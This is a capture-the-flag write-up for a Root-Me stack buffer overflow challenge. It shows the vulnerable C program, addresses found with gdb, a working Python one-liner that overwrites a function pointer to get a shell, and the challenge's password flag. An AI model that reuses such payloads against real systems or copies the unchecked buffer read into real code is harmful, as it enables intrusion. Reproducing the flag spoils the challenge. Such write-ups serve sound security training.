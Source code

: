 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy
- Statement
- Environment configuration <br>
```
  PIE	    Position Independent Executable	 ✘ 
  RelRO	    Read Only relocations	         ✘ 
  NX	    Non-Executable Stack	         ✔ 
  Heap exec Non-Executable Heap	                 ✔ 
  ASLR	    Address Space Layout Randomization	 ✘ 
  SF	    Source Fortification	         ✘ 
  SSP	    Stack-Smashing Protection            ✘
  SRC	    Source code access	                 ✔ 
```
## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
## Write-up:
- As a normal code flow, the program will point to the address of **sup()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. - Using gdb and disassembler the **main()** function:<br>
![image](https://user-images.githubusercontent.com/48288606/141277701-1e1e1c08-997a-47ba-be6a-1129505aee79.png)
 
- Poke around and find the **shell()**'s address at **0x08048516**:<br>
![image](https://user-images.githubusercontent.com/48288606/141276299-ec52a57d-f7cb-48de-a655-2862d97402c3.png)
- Let's try filling with 128 arbitrary bytes and the address of **sup()** function at **0x08048559**
```
app-systeme-ch15@challenge02:~$ python -c "print('a'*128+'\x59\x85\x04\x08')" | ./ch15
Hey dude ! Waaaaazzaaaaaaaa ?!
Segmentation fault
```
"Segmentation fault" cuz we're executing onto a sensitive part of stack, don't mind that. Clearly, we can access to the satisfied function and carry out the code
### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

